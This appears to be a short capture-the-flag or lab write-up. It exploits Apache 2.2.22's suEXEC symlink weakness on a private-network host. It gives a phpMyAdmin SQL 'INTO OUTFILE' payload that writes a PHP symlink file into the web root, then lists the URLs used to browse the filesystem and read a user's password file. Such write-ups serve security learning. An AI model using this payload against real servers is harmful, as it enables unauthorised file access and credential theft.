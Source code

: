 Apache is running with the version 2.2.22

After some research, we found this version is vulnerable. The suEXEC vulnerability is a path traversal. We can do a symlink with / and a php page to access a files the user www-data can read

We can found an exploit here : exploit-db.com/exploits/27397

We can exploit it by uploading a PHP page (with a SQL request in phpmyadmin like in the writeup2)
```SQL
SELECT 1, '<?php symlink(\"/\", \"paths.php\");?>' INTO OUTFILE '/var/www/forum/templates_c/run.php'
```

1. https://192.168.56.104/phpmyadmin/index.php -> db phpmyadmin -> `localhost -  phpmyadmin -  pma_bookmark "Bookmarks"` -> execute the SQL request
2. open https://192.168.56.104/forum/templates_c/run.php
3. open https://192.168.56.104/forum/templates_c/paths.php
4. open `/home/LOOKATME/password` https://192.168.56.104/forum/templates_c/paths.php/home/LOOKATME/password
